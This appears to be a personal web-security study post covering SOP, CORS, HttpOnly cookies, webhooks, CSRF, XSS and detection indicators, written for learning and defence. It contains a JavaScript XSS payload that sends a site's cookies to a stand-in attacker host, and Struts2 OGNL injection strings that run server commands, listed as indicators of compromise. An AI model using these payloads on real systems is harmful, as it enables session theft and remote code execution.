




This is about … .
SOP vs CORS
SOP
Basically, SOP says “You can’t manipulate resources belonging to other websites, you must remain here at all times. Play with your toys only”. It is some sort of a sandbox.
Let’s have a look at an example. Let’s take two websites: bakerst221b.com and richmond65a.com. The javascript on bakerst221b.com wants to have access to something on richmond65a.com. What does it have access to and what does it not have access to?
- Cookies 🍪 -> NO!!! Cookies are like temp keys. While temporary, these are still keys which can be used to open doors. Once the door is open, all sorts of nasty stuff can happen and we don’t want that. That’s the whole point why SOP was created in the first place. ❗️For the usability purposes, cookies can be accessed by other subdomains although it might pose some risks. In order to partially mitigate it, use
HttpOnlyflag when creating a cookie. - Videos 🎥.
- Pictures 🌇.
- Another script 📝.

Ok. The website https://bakerst221b.com can have videos, pictires and sctipts from the richmond website loaded on its page.

But what’s interesting, it still can’t ACCESS them.

Relax, SOP…
- Cookies can be accessed by subdomains (unless
HttpOnlyis set) document.domainis set to the same domain to show the browser it’s ok, but only if both are parts of the same FQDN.- CORS.
DNS rebinding attack effectively circumvents the SOP. Read more in the protocols -> ASP -> DNS article.
CORS
What fun would it be if the rules didn’t have some exceptions? CORS is basically as way to circumvent overly strict SOP and allow something to be accessed cross-origin.
When seeing some cross-origin request, user’s browser first sends a preflight request to check if it’s allowed to do so. And here is the biggest trick. There are simple and “complex” requests. When something happens WITHOUT javascript (html only), the requests generated are ALWAYS simple. That means that without javascript code one CAN’T make a non-simple request. What do I call non-simple? Let’s start with what’s simple first.
- Methods:
GET,HEADandPOST - Headers: no custom headers (including those starting with
X-) - Content type:
application/x-www-form-urlencoded,multipart/form-data, ortext/plain.
Note that ALL of the requierements above need to be satisfied. Non-simple are basically everything else. The reason why simple requests do not require a preflights is because they relatively safe. Since you can’t set headers, change content-type or use other methods from plain html, and the request is constructed automatically by the browser, it’s relatively safe. You might ask if cookies are sent this way.
The most important header is Access-Control-Allow-Origin, it says which origins can make the cross-origin requests. Another header to be mindful is Access-Control-Allow-Credentials, when set to true.
Here is an example of the request:
OPTIONS /api/resource HTTP/1.1
Host: example-server.com
Origin: https://example-client.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: X-Auth-Token
In the response, the server will tell the broser what’s allowed and what’s not:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example-client.com
Access-Control-Allow-Methods: PUT, POST, GET, OPTIONS
Access-Control-Allow-Headers: X-Auth-Token
Access-Control-Max-Age: 86400
Say, I have a website bakerst22b_evil.com. On my website there is a link to richmond64.com. When the user clicks the link, it doesn’t initiate CORS. However, this is a cross origin request. If richmond64.com has a CSRF there, it might be exploited. CORS won’t protect from that.
Another scenario. On my website bakerst22b_evil.com there is a javascript code that want’s to access a richmond64.com cookie 🍪. It won’t be able to because the user’s browser won’t allow it. The only way that bakerst22b_evil.com could access it, is if richmond64.com set its CORS header to the following:
Access-Control-Allow-Origin: * # or
Access-Control-Allow-Origin: bakerst22b_evil.com # or
Access-Control-Allow-Credentials: true
httpOnly
When a client connects to a server, a server sets the cookie required to track the user’s activity and identify them with the following header:
Set-Cookie: sessionId=abc123; HttpOnly
Do you remember how we talked about SOP and how javasctipt can’t access cookies from other website’s? Well, this flag makes it impossible for javascript to access cookies for ITS OWN website! Why? To protect from XSS.
Say, https://richmond64.com has a stored XSS vulnerability. One can just embed the following code to send cookies for the website whenever they wanted:
function getCookies() {
let cookieArray = document.cookie.split(';');
let cookies = {};
for (let i = 0; i < cookieArray.length; i++) {
let cookie = cookieArray[i].trim();
let [name, value] = cookie.split('=');
cookies[name] = value;
}
return cookies;
}
async function sendCookies() {
let cookies = getCookies();
let response = await fetch('https://bakerst221b_evil.com', {
method: 'POST',
headers: {
'Content-Type': 'application/json',
},
body: JSON.stringify(cookies),
});
if (response.ok) {
console.log('Cookies sent successfully');
} else {
console.error('Failed to send cookies');
}
}
sendCookies();
When the client visits the website with this code, all cookies belonging to the https://richmond64.com origin are sent over to https://bakerst221b_evil.com. With httpOnly flag the javascript won’t be able to do that. So, even if there were an XSS, the cookies would not be stolen.
HSTS
Strict-Transport-Security header is sent forcing the browser only use HTTPS and preventing any requests coming via HTTP.
Certificate Transparency (CT)
CA issues certificates and maintains a log with all the certificates issued. This log is available online and helps:
- Detect misissued certificates, which may be a result of CA compromise or misconfiguration.
- Identify rogue CAs that are issuing certificates without proper authorization.
- Increase the overall trust in the SSL/TLS ecosystem by providing transparency and accountability.
Cookies
If you hit F12 in your browser and go to Application tab (applicable to Chrome), you will see a handful of things there. But there are three things I would like to talk about just now: local storage, session storage and cookies. Cookies and sessions identifiers can be stored in either of the three, but they are usually stored in the Cookie storage. However, that means that unless we have some additional settings in place, they will sent with any request to our website, and as we know from the CSRF section below, that’s not always a good thing.

Local Storage, Session Storage, and Cookies are all client-side storage options used to store data in a user’s browser.
- Local Storage:
- It is used to store data without an expiration time.
- Data stored in Local Storage will persist even after the browser is closed and reopened.
- It has a storage capacity of about 5-10 MB per domain.
- To access Local Storage in JavaScript, use the following methods:
localStorage.setItem('key', 'value')to set a value.localStorage.getItem('key')to get a value.localStorage.removeItem('key')to remove a value.localStorage.clear()to clear all data.
- Session Storage:
- It is used to store data for the duration of a single browser session.
- Data stored in Session Storage will be cleared when the browser is closed or the session ends.
- It has a storage capacity of about 5-10 MB per domain.
- To access Session Storage in JavaScript, use the following methods:
sessionStorage.setItem('key', 'value')to set a value.sessionStorage.getItem('key')to get a value.sessionStorage.removeItem('key')to remove a value.sessionStorage.clear()to clear all data.
- Cookies:
- They are used to store small pieces of data (typically up to 4 KB) with an expiration time.
- Cookies are sent to the server with every HTTP request, making them suitable for authentication and user preferences.
- To access Cookies in JavaScript, use the following methods:
- Set a cookie:
document.cookie = 'key=value; expires=...; path=...; domain=...; Secure; SameSite=...;' - Get all cookies:
var allCookies = document.cookie; - To delete a cookie, set its expiration date to a past date.
- Set a cookie:
The main differences between these storage options are their persistence, capacity, and whether they are sent to the server with each request. Choose the appropriate storage type depending on the specific requirements of your application.
Server-Client Conversation Types
Long-Polling
WebSockets
Server-Sent Events
WebHook
A webhook is an HTTP request, triggered by an event in a source system and sent to a destination system, often with a payload of data. Webhooks are automated, in other words they are automatically sent out when their event is fired in the source system.
Let’s build an analogy.
Imagine a fisher 🎣 has cast a fishing line and now is waitng for a fish to bite. How does the fisher know that this event has occured? Well, he feels the fishing line to get strained and the float to move across the surface. Now, once our fisher has received those signals, he can act upon them. That’s pretty much it.
I would like to show an example more technical than the above 😂. One of the usages could be to send logs or notifications to a remote machine.
For example, you have a Incident Management service (OpsGenie, for example) and you’d like to connect it to Elastic SIEM, meaning that you’d like any alerts coming from SIEM go directly to OpsGenie. Who’s the fisher here? Well, OpsGenie is the fisher, SIEM is the pond and each event is a fish 🐟 … or not a fish.

The easiest way, of course, is when there are available pre-built integrations that would ease the process. For example, for Elastic SIEM there is X-Pack Alerting (in OpsGenie go to Settings -> Integrations -> X-Pack Alerting). There are lot of complicated fields but there are just a few essential ones. First and foremost copy the code snippet at the beginning, in the Settings section:
"opsgenie" : {
"webhook" : {
"scheme" : "https",
"method" : "POST",
"host" : "api.opsgenie.com",
"port" : 443,
"path" : "/v1/json/eswatcher",
"headers" : {
"Content-Type" : "application/json"
},
"params": {
"apiKey": "🔑"
},
"body" : "{{#toJson}}ctx{{/toJson}}"
}
}
API key 🔑 is generated by the integration. You can’t generate the key 🔑 yourself in API management section. It won’t work with the integration and besides, you can’t paste anything in this field. You can only regenerate the 🔑.
Now, time to go to Elastic now. There are two ways to make this work.
- Option 1. X-Pack API key + Elastic WebHook Connector + Rules
- 🧞 Get OpsGenie API key and turn X-Pack on (fisher sits at the pond)
- 🏋🏼♂️ Configure the Connector in Elastic (set up a fishing line)
- 🏋🏼♂️ Configure Elastic Rules (get the appropriate bait for the fish)
- Option 2. X-Pack (OpsGenie) + Watcher (Elastic)
- 🧞 Get OpsGenie API key and turn X-Pack on (fisher sits at the pond)
- 🏋🏼♂️ Configure Watcher in Elastic (set up a fishing line and get the appropriate bait for the fish)
- 🧞 Set-up X-Pack in OpsGenie
Message. You obviously need to deine what message would look like. The default one is: [X-Pack Alerting] {{watchId}} is triggered. Total Hits: {{totalHits}}. Optionally, you can configure the filter if you don’t want to receive all the events.
When all the settings are done, click Enabled to set all up and running.
Another example to see would be some open-source k8s cluster watcher here.
Backpressure
CSRF
Three conditions need to be met in order to CSRF to work:
- The website neeeds to have some request that CHANGES things. Simple read-only GET requests are of no use to the attacker. It can be something like password change, admin changes, adding users etc.
- The legitimacy of the requests are determined by one or more cookies 🍪 in the
Cookiesheader. No other mechanism is involed in this. It also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication. - There are no additional parameters that the attacker needs to guess. For the password reset, it could be for example, current password.
CSRF Token
Suppose we have a page on https://bakerst221b_evil.com, and there is a link like https://richmond.com/admin/add?name=evil&password=master (richmond.com is vulnerable to CSRF). What happens is that the browser will open this page with the credentials belonging to Richmond, and if there is a valid session, the action above will be executed.
How does a CSRF token protect against CSRF? Remember that a request is considered simple only when all conditions are met (GET/POST/HEAD and no custom headers and content type is a form or text). But what is a CSRF token? It’s a random value passed in a custom header (something like X-CSRF-token). Now, if the server requires this custom header to be present, one cannot use just HTML to craft a request. Clicking on a link like https://richmond.com/admin/add?name=evil&password=master will not result in a request with a custom header since it’s CUSTOM, and the browser only sends what is NOT custom, but rather what’s usual. Now, the attacking script on https://bakerst221b_evil.com would have to embed JavaScript to add a custom header, something like the following:
const xhr = new XMLHttpRequest();
const url = 'https://richmond64.com/api/data';
xhr.open('GET', url, true);
// Add a custom header
xhr.setRequestHeader('X-Custom-Header', 'my-custom-value');
xhr.onreadystatechange = function () {
if (xhr.readyState === 4 && xhr.status === 200) {
const responseData = JSON.parse(xhr.responseText);
console.log(responseData);
}
};
xhr.send();
But that poses two problems:
- How does it “guess” the value of the token? The attacker can hope that there is some vulnerability in the token generation or validation.
- Once the custom header is sent, the request ceases to be a simple one and preflight is sent first. And if there are no misconfigurations associated with the CORS policy, or no CORS policy is set up at all, the request will NOT be sent.
❗️ Of course, there are other mechanisms that need to be leveraged to protect from CSRF, since CORS is not a CSRF mitigation!
SameSite
Before this was invented, when the browser made cross-origin requests, the cookies for the website were sent over automatically. Although the attacking website initiating this cross-origin requrest could not READ the response (protected by SOP) or the cookies themselves, still it was possible to make some changes on the target website without user knowledge USING those cookies if a CSRF vulnerability was present there.
Google Chrome has changed its default behavior to treat cookies without a SameSite attribute as if they were set to SameSite=Lax. This means that if you want to allow cross-site cookie usage, you need to explicitly set SameSite=None and Secure.
Referer-based validation
XSS
Userful reference for XSS payload construction: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet.
Reflected
Stored
DOM
That’s the only type of XSS that doesn’t require any interaction with the server, all the magic happens in the client-side code. But the root cause is still the same: no sanitisation of user input.
For example, if there is such code in the JS code:
document.getElementById('searchResults').innerHTML = 'Search results for: ' + decodeURIComponent(window.location.search.substr(1));
User input gets written to page displayed to the client (without any refreshing or sending requests to the server). If the user clicks a link like this https://example.com/search?%3Cscript%3Ealert('XSS')%3C/script%3E, the XSS will fire ☄️.
🛠 BeEF
Prerequisites:
- Vulnerable web page: There must be a vulnerable web page where you can inject the BeEF hook JavaScript payload. This could be a page with a Cross-site Scripting (XSS) vulnerability or any other way to execute JavaScript code in the context of the target’s browser.
- BeEF server: A running BeEF server is required to serve the BeEF hook JavaScript payload and manage hooked browsers. The BeEF server listens for incoming connections from hooked browsers and provides the web-based interface for the attacker to control the hooked browsers and execute various modules.
- Hooked browser: The target user must visit the vulnerable web page containing the injected BeEF hook JavaScript payload using a web browser. Once the user’s browser executes the payload, it will establish a connection with the BeEF server, enabling the attacker to perform various attacks using the BeEF framework.
- Network accessibility: The target’s browser must be able to reach the BeEF server over the network. In some cases, this might require the BeEF server to have a public IP address or be accessible through a proxy or VPN. Network firewalls and filtering can also prevent the BeEF hook from functioning properly.
- JavaScript enabled: The target’s browser must have JavaScript enabled, as the BeEF hook relies on JavaScript to establish a connection with the BeEF server and execute the attacker’s commands.
SQLi
Basically, the same root cause as with XSS - insufficient sanitisation of user input.
Directory Traversal
GET vs POST
GET parameters can be visible to the attacker even when TLS is in place in the following cases:
- Server Name Indication (SNI): SNI is an extension of the TLS protocol that allows clients to specify the domain name they want to connect to. While the GET parameters themselves are not exposed, the domain name and path in the URL may be visible to anyone monitoring the connection, potentially revealing sensitive information.
- Browser History and Cache: Although encrypted during transmission, the full URL, including GET parameters, is stored in the browser’s history and cache. If an attacker gains access to the user’s computer or browser data, they could potentially view the GET parameters.
- HTTP Referer Header: The HTTP referer header is sent by browsers when navigating from one page to another, indicating the URL of the referring page. If the referring page’s URL contains GET parameters, they may be exposed to third-party websites when following a link or submitting a form.
- Web Server Logs: Web servers typically log the full URL of each request, including GET parameters. If an attacker gains access to the web server logs, they could potentially view sensitive information contained in GET parameters.
- Network Monitoring and Logging Tools: In corporate or public networks, monitoring tools may be in place to log network traffic, including URLs. While the content of the communication is encrypted, the URL, including GET parameters, might be logged and visible to network administrators or anyone with access to the logs.
IoC & Investigation Tips
SQLi
🚨 Detections
- If the majority of SQL requests are
SELECTand you seeDROP TABLE. - Many 500 status codes could indicate
⚙️ Payloads IoCs
https://github.com/payloadbox/sql-injection-payload-list https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt https://github.com/omurugur/SQL_Injection_Payload
🛠 Tools IoCs
sqlmap
It can be run as a standalone CLI tool or as a part of Burp.
-
User-AgentHTTP header contains sqlmap and its version by default.
XXS
There are three types of XSS: DOM, Stored and reflected.
⚙️ Payloads IoCs
https://github.com/payloadbox/xss-payload-list
🛠 Tools IoCs
XXE
⚙️ Payloads IoCs
https://github.com/payloadbox/xxe-injection-payload-list
🛠 Tools IoCs
CMDi
⚙️ Payloads IoCs
https://github.com/payloadbox/command-injection-payload-list
-
pingandnslookupkeywords where these are not expected
🛠 Tools IoCs
IDOR
⚙️ Payloads IoCs
It’s a very special vulnerability, and it’s hard to define a pattern. If you log IP addresses and user IDs (id, username, email or any other identification) - look for the requests with the same IP and different ID.
Multiple 404 HTTP status code would be probably seen in this case if the attacker, who has found this issue, tried to enumerate IDs. Of course, to completely prevent IDOR one needs to implement proper authorisation process, however, it’s also clear from this vulnerability why having short and predictable IDs is not good. But even if the IDs are randomly generated GUIDs, still this won’t protect from IDOR, just make the attacker’s life a little harder.
🛠 Tools IoCs
- Burp (see at the end of this article)
HTML Injection
About this vulnerability read here.
OGNL
About OGNL, read here.
⚙️ Payloads IoCs
-
gk6q${“zkz”.toString().replace(“k”, “x”)}doap2 -
https://www.example.url/?vulnerableParameter=PRE-${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23parameters.INJPARAM[0])%2c%23kzxs.print(new%20java.lang.Integer(829%2b9))%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}-POST&INJPARAM=HOOK_VAL -
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Qualys-Response",#a))} -
(#_='multipart/form-data') -
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS) -
(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']) -
(#context['xwork.MethodAccessor.denyMethodExecution']=false) -
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).> -
(#ognlUtil.getExcludedPackageNames().clear()) -
(#ognlUtil.getExcludedClasses().clear()) -
(#context.setMemberAccess(#dm)))) -
(#cmd='/usr/bin/touch /tmp/pwned').(#iswin=@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))) -
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})) -
(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()) -
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())) -
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
🛠 Tools IoCs
- Burp (see at the end of this article)
Botnets
Below are some things to use when trying to spot a botnet operating.
- Outdates or unusual User Agents.
- A lot of requests coming from one IP or a small range of IP addresses.
- Patterns indicative of automated activity.
- Frequent requests, more frequent than with a legit user.
Check the IP addresses associated with the user agent strings. If a large number of requests with the same user agent are coming from the same IP address or a small range of IP addresses, it could be an indication of a botnet.
Dirbusting
⚙️ Payloads IoCs
🛠 Tools IoCs
- Burp (see at the end of this article)
-
dirb- Linux
- macOS
Fuzzing
⚙️ Payloads IoCs
🛠 Tools IoCs
Swiss Knives, Frameworks and Other Tools’ IoC
Burp
-
*.oastify.comdomain
Metasploit
Postman
- The
User-AgentHTTP header containsPostmankeyword and its version.
SSRF
Server-side request forgery. What’s the easiest way to detect that the vulnerability is present? It requires a URL-like parameter to be present (see example below). In case there is some fiiltering by IP in place, this vulnerability can be used to get this restricted information via this vulnerable server.
Example:
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://192.168.0.68/admin
More info here.
References
Expand…
Portswigger SOP article
https://portswigger.net/web-security/cors/same-origin-policy